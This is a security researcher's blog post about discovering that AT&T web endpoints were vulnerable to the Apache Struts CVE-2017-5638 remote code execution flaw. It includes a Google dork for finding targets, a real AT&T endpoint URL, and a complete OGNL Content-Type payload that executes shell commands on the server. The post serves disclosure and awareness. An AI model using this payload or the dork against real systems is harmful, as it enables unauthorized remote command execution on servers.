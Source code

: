 ```yaml
---
layout: post
title: "Remote Code Execution in AT&T"
---
```

I was pentesting AT&T to see if I could find a vulnerability (as one does), around 4-5 days after CVE-2017-5638 was released.   Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 is vulnerable to **Server-Side Template Injection**, which allows attackers to execute commands on any vulnerable server. Basically, the file upload interceptor for these vulnerable versions "attempted to resolve error messages using a potentially dangerous function that evaluates OGNL." It's not actually a vulnerability within the Jakarta request wrapper, but rather in the file upload interceptor. <br><br>
I instantly was curious about this vulnerability and went to see if AT&T ran Struts, so I started off with a simple Google dork: `site:att.com + ext:action` and *A LOT* of results came up! I grabbed a random one:  `https://www.att.com/tobrcontract/tobrinfotc.action`<br><br>
I opened up Burp Suite, intercepted the request and sent it to the Repeater. I added this payload in the content-type header to see if it was vulnerable:
```java
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).! (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='uname -a').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
I sent the request and to my surprise, the command executed!<br><br>
![Code Execution](/images/att-rce.png "RCE")
<br><br>
I was absolutely astounded that after a week of this 0day being released, that such a big company would still be vulnerable WHEN they had a security team and bug bounty program! I also identified a subdomain that was vulnerable.<br> All goes to show that if you are WORKING in information security, it would be smart to pay attention to the community and to the news so you can protect yourself.<br><br>
Regardless, that's how I could've pwned AT&T, which would have affected their hundreds millions of customers (<font color="#E22A3C">~147 million</font> wireless customers in the U.S. and Mexico).
<br><br>
Thanks for reading!<br><br>
**Corben Leo** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
